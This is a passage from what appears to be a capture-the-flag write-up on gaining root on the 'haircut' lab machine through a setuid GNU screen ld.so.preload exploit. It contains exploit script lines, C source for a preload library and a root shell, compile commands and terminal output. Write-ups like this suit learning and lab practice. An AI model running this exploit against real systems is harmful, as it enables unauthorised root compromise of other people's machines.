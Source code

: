 ```terminal
rm -f /tmp/rootshell.c
echo "[+] Now we create our /etc/ld.so.preload file..."
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
echo "[+] Triggering..."
screen -ls # screen itself is setuid, so... 
/tmp/rootshell
```

I run the exploit but didn't work properly, so i tried doing it step by step.

First we create a file in `/tmp` called `libhax.c` with the following content:

```c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
```

We compile it using this command: `gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c`

```terminal
www-data@haircut:/tmp$ gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c                                                                                 
gcc: error trying to exec 'cc1': execvp: No such file or directory
```

If you got an error about `cc1`, add `/bin` to PATH and it should work.

```terminal
www-data@haircut:/tmp$ export PATH=/bin:$PATH
www-data@haircut:/tmp$ gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c                                                                                 
/tmp/libhax.c: In function 'dropshell':                                                                                                                       
/tmp/libhax.c:7:5: warning: implicit declaration of function 'chmod' [-Wimplicit-function-declaration]                                                        
     chmod("/tmp/rootshell", 04755);                                                                                                                          
     ^                                                                                                                              
```

Now we create the second file named `rootshell.c` also in /tmp with the following content:

```terminal
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
```
